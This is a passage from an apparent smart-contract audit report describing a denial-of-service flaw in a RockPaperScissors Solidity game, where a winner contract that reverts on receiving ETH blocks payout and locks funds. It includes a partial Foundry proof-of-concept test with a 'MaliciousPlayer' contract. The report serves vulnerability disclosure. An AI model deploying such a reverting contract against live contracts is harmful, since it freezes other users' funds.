 This results in:

* call{value:} fails

* success == false

* require(success, ...) rolls back all execution

* The game is not marked as over

* Funds are stuck

* No one can advance

## Impact:

* The game cannot be marked as finished.

* No prize can be withdrawn.

* Funds remain locked in the contract.

* The DoS is fully reproducible and prevents normal game flow.

* Admin has no override mechanism.

* Critical game logic is tightly coupled with external code execution

## Proof of Concept:

* A test contract called RPS\_DoS.t.sol has been created for the proof of concept.

* To run the test, simply execute:

```javascript
forge test --mt test_DoSOnWinnerPayout -vvvv
```

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/RockPaperScissors.sol"; 

/// @notice Attacking contract reverts upon receiving ETH
contract MaliciousPlayer {
    receive() external payable {
        revert("I refuse your ETH");
    }

    function getCommit() external pure returns (uint8 move, bytes32 salt, bytes32 commitment) {
        move = 1; // Rock
        salt = keccak256("malicious");
        commitment = keccak256(abi.encodePacked(move, salt));
    }
}

contract RockPaperScissorsDoSTest is Test {
    RockPaperScissors public game;
    WinningToken public token;
    MaliciousPlayer public attacker;
    address public honest = address(0xA1);

    function setUp() public {
        game = new RockPaperScissors();
        token = game.winningToken();
        attacker = new MaliciousPlayer();

```
